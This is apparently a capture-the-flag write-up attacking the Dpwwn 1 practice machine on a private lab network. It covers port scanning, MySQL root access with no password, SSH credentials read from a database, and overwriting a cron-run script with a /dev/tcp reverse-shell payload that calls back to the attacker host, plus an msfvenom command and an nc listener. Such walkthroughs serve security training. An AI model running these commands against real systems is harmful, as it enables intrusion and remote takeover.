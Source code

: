 # Dpwwn 1
![](https://i.imgur.com/1JR58TI.png)
Host is `192.168.227.132`
![](https://i.imgur.com/2mFxAST.png)
Victim is `192.168.227.131`
`nmap -sS -sV -p- -oN NampDpwwnLv1.txt 192.168.227.131`
![](https://i.imgur.com/CbtVWI8.png)
We got ssh, web service and mysql.
![](https://i.imgur.com/w0cXN3t.png)
`dirb` it.
![](https://i.imgur.com/PcBaSGG.png)
Nothing, jsut simple info.
Let's turn to exploit the MySQL.
![](https://i.imgur.com/xfPtE3g.png)
Let's take try to access the mysql.
`mysql -h 192.168.227.131 –u root –p`
There's might be common mistake that didn't set root pf DB property.
`show databases;`
`use ssh;`
`show tables;`
![](https://i.imgur.com/4ZJn9Rl.png)
Then we found some AC/PW for SSH.
`select * from users;`
![](https://i.imgur.com/No7ipmo.png)
Then we use `mistic` to login to the machine. 
`ssh mistic@192.168.227.131`
`ls –al`
![](https://i.imgur.com/dCfEcoJ.png)
Here we got a `.sh` file belong to mistic.
`cat logrot.sh`
![](https://i.imgur.com/hx4JXBM.png)
So, this is a shell script to collect the semaphore log every 3 minutes.
`grep -r 'logrot.sh' /* 2>/dev/null`
![](https://i.imgur.com/kL8DvJa.png)
`cat /etc/crontab`
![](https://i.imgur.com/8NScdhj.png)
`msfvenom –p cmd/unix/reverse_bash lhost=192.168.227.132 lport=8888 R`
![](https://i.imgur.com/6AfEJXx.png)
`echo ‘0<&74-;exec 74<>/dev/tcp/192.168.227.132/8888;sh <&74 >&74 2>&74’ > logrot.sh`
`nc –nvlp 8888`
Wait for 3 minutes then you'll get the shell.
![](https://i.imgur.com/ngdNuAt.png)
